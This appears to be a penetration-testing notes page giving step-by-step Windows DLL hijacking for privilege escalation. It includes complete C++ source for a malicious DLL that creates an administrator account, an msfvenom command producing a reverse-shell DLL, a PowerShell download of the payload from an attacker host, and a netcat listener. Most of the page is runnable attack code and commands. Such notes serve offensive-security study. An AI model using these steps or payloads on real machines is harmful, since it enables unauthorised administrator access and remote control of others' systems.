 # DLL Hijacking

Steps:

1. [check installed applications](dll-hijacking.md#id-1.-enumerate-installed-applications)
2. [check if any applications / versions are vulnerable](dll-hijacking.md#id-2.-check-for-vulns)
3. [check if you can write to write to the vulnerable application directory](dll-hijacking.md#id-3.-check-if-you-can-write-to-the-directory)
4. [use process monitor on vuln application](dll-hijacking.md#id-4.-process-monitor)
5. [create DLL](dll-hijacking.md#id-5.-create-dll)
6. [install malicious DLL](dll-hijacking.md#id-6.-install-malicious-dll)
7. [wait for someone with higher privs to run the application / confirm user is created](dll-hijacking.md#id-7.-escalate-privileges)

### _<mark style="background-color:purple;">**1. enumerate installed applications**</mark>_

{% code overflow="wrap" %}
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
{% endcode %}

### _<mark style="background-color:purple;">**2. check for vulns**</mark>_

google applications and versions to check for vulns

<mark style="background-color:blue;">check file permissions:</mark>

&#x20;list [permissions ](service-binary-hijacking.md#enumerate-permissions-on-service-binaries)of the binary file:

```powershell
icacls .\Documents\BetaServ.exe
```

_file permissions to check for:_

* **(F)** - Full access
* **(M)** - Modify access

### _<mark style="background-color:purple;">**3. check if you can write to the directory:**</mark>_

{% code overflow="wrap" %}
```powershell
echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'
type 'C:\FileZilla\FileZilla FTP Client\test.txt'
```
{% endcode %}

### _<mark style="background-color:purple;">**4. process monitor**</mark>_

With <mark style="color:red;background-color:red;">**admin creds**</mark> to run pm:

1. <mark style="background-color:red;">filter PM to only events related to the application:</mark>
   * _<mark style="background-color:red;">Process Name</mark>_ <mark style="background-color:red;"></mark><mark style="background-color:red;">as</mark> <mark style="background-color:red;"></mark>_<mark style="background-color:red;">Column</mark>_<mark style="background-color:red;">,</mark> <mark style="background-color:red;"></mark>_<mark style="background-color:red;">is</mark>_ <mark style="background-color:red;"></mark><mark style="background-color:red;">as</mark> <mark style="background-color:red;"></mark>_<mark style="background-color:red;">Relation</mark>_<mark style="background-color:red;">,</mark> <mark style="background-color:red;"></mark>_<mark style="background-color:red;">filezilla.exe</mark>_ <mark style="background-color:red;"></mark><mark style="background-color:red;">as</mark> <mark style="background-color:red;"></mark>_<mark style="background-color:red;">Value</mark>_<mark style="background-color:red;">, and</mark> <mark style="background-color:red;"></mark>_<mark style="background-color:red;">Include</mark>_ <mark style="background-color:red;"></mark><mark style="background-color:red;">as</mark> <mark style="background-color:red;"></mark>_<mark style="background-color:red;">Action</mark>_<mark style="background-color:red;">.</mark>
2. <mark style="background-color:red;">clear all current events in pm</mark>
3. <mark style="background-color:red;">restart application</mark>\ <mark style="background-color:red;">\`Restart-Service {application}'</mark>
4. <mark style="background-color:red;">run the vuln application as the currently logged in user</mark>
5. <mark style="background-color:red;">update our filters to look for only</mark> <mark style="background-color:red;"></mark>_<mark style="background-color:red;">CreateFile</mark>_ <mark style="background-color:red;"></mark><mark style="background-color:red;">operations. Alsp, limit search results by looking for the specificl DLL name inside the</mark> <mark style="background-color:red;"></mark>_<mark style="background-color:red;">Path</mark>_<mark style="background-color:red;">.</mark>
   * _<mark style="background-color:red;">Path contains {DLL name}</mark>_
6. <mark style="background-color:red;">look for result '</mark>_<mark style="background-color:red;">NAME NOT FOUND</mark>_<mark style="background-color:red;">' - can abuse the missing DLL</mark>

### _**5. create DLL**_

#### _<mark style="background-color:blue;">**Malicious DLL to create a new user**</mark>_

{% code title="adduser.cpp" overflow="wrap" %}
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
{% endcode %}

* compile DLL

{% code overflow="wrap" %}
```shell
x86_64-w64-mingw32-gcc TextShaping.cpp -shared -o TextShaping.dll
```
{% endcode %}

* `-shared` specify that we want to build a DLL

#### _<mark style="background-color:blue;">**Malicious DLL with reverse payload**</mark>_

{% code overflow="wrap" %}
```shell
msfvenom -p windows/x64/shell/reverse_tcp LHOST={ip} LPORT={port} -f dll -o {target dll}.dll
```
{% endcode %}

### _<mark style="background-color:purple;">**6. install malicious DLL**</mark>_

start a python webserver on kali to download the created DLL on the target machine

{% code overflow="wrap" %}
```powershell
iwr -uri http://192.168.45.215/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
```
{% endcode %}

### _<mark style="background-color:purple;">**7. Escalate privileges**</mark>_

#### &#x20;_**wait for someone with higher privs to run the application / confirm user is created****&#x20;**<mark style="color:purple;">**- DLL to add user**</mark>_

```powershell
net user 
net localgroup administrators
Restart-Service BetaService
```

#### &#x20;_**Run the application to connect via bind shell****&#x20;**<mark style="color:purple;">**- DLL with reverse shell**</mark>_

<mark style="color:purple;">\[kali]</mark>

`nc -lvnp 1234`&#x20;

\[windows]

